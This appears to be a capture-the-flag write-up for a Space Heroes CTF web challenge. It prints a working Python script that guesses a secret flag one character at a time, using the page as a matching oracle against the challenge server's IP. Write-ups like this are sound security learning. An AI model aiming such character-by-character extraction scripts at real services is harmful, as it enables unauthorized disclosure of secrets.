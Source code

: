 # Flag in Space - Web

Space Heroes CTF had a number of space and scifi themed interesting challenges, and while I didn't get as much time as I would've liked to play around with them, this was one challenge that I found simple but particularly satisfying to solve - it was the second to last web challenge in the web category worth 300 points.

Upon visiting the URL, we are presented with a grid with a number of squares in it, with the first grid square containing the letter "s". We can also see that the URL itself has a query parameter flag, which initially has the value of "s" (http://172.105.154.14/?flag=s).

Whenever I see a query parameter used in any CTF challenge I tend to experiement with it straight away, and this one didn't take long to figure out. Knowing that the flag started with "shctf{", I used that as the value for the query param, and it filled the next several grid items with those letters. 

So what was happening was that the server was checking to see if what was in the query string matched the flag, and if the letters matched it would render them inside the grid divs. With this information I quickly wrote a python script to iterate over string.printable, using BeautifulSoup to parse the HTML that is returned by the request, and construct the flag, and this was the final script:

	import requests
	import string
	from bs4 import BeautifulSoup

	url = "http://172.105.154.14/?flag=s"

	known = "s"
	attempt = 1

	while True:
		# Iterate over string.printable
		for c in string.printable:
			print(f"Trying {url + c}")
			r = requests.get(url + c)
			soup = BeautifulSoup(r.text, 'html.parser')	# Parse the current div using BeautifulSoup
			result = soup.select('div')[attempt].get_text(strip=True)
			print(result)
			if c in result:
				url += c
				known += c
				attempt += 1
		print(f"Flag: {known}")

This was a fun challenge and while I wish I'd got to spend more time on the CTF overall, I did get first solve of this challenge, and anytime I get to use python + requests + string, whether it's a blind SQL injection or simply parsing some divs, I find myself very satisfied with the result.


